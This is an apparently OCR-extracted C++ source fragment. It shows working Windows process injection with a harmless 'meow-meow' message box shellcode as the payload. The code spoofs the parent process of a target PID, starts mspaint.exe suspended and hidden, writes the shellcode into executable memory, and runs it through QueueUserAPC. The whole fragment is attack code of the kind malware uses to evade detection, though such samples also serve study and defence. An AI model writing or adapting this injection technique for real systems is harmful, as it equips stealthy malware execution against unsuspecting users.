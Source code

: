 ```cpp
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  STARTUPINFOEXA si;
  PROCESS_INFORMATION pi;
  SIZE_T st;
  int pid = findMyProc(argv[1]);
  if (pid) {
    printf("PID = %d\n", pid);
  }

  HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, false, (DWORD)pid);

  ZeroMemory(&si, sizeof(STARTUPINFOEXA));
  InitializeProcThreadAttributeList(NULL, 1, 0, &st);
  si.lpAttributeList = 
  (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, st);
  InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &st);
  UpdateProcThreadAttribute(si.lpAttributeList, 0, 
  PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
  si.StartupInfo.cb = sizeof(STARTUPINFOEXA);

  CreateProcessA("C:\\Windows\\System32\\mspaint.exe", NULL, NULL, NULL, TRUE, 
  CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, 
  NULL, reinterpret_cast<LPSTARTUPINFOA>(&si), &pi);
  LPVOID ba = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, 0x1000, MEM_RESERVE | 
  MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  SIZE_T *nb = 0;
  BOOL res = WriteProcessMemory(pi.hProcess, ba, (LPVOID)my_payload, 
  sizeof(my_payload), nb);

  QueueUserAPC((PAPCFUNC)ba, pi.hThread, 0);
  ResumeThread(pi.hThread);
  CloseHandle(pi.hThread);

  return 0;
}
```
